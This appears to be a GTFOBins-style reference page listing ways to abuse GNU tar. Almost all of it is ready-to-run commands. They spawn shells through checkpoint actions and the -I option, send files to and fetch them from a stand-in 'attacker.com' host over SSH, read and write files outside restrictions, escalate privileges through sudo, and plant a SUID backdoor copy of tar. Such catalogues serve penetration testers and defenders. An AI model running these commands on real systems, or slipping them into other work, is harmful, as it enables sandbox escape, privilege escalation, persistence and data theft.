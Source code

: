 # GTFOBin: tar

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This only works for GNU tar.

```
tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
```

This only works for GNU tar. It can be useful when only a limited command argument injection is available.

```
TF=$(mktemp)
echo '/bin/sh 0<&1' > "$TF"
tar cf "$TF.tar" "$TF"
tar xf "$TF.tar" --to-command sh
rm "$TF"*
```

## File upload

It can exfiltrate files on the network.

This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).

```
RHOST=attacker.com
RUSER=root
RFILE=/tmp/file_to_send.tar
LFILE=file_to_send
tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
```

## File download

It can download remote files.

This only works for GNU tar. Download and extract a tar archive via SSH. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).

```
RHOST=attacker.com
RUSER=root
RFILE=/tmp/file_to_get.tar
tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/bin/ssh
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

This only works for GNU tar.

```
LFILE=file_to_write
TF=$(mktemp)
echo DATA > "$TF"
tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

This only works for GNU tar.

```
LFILE=file_to_read
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which tar) .

./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
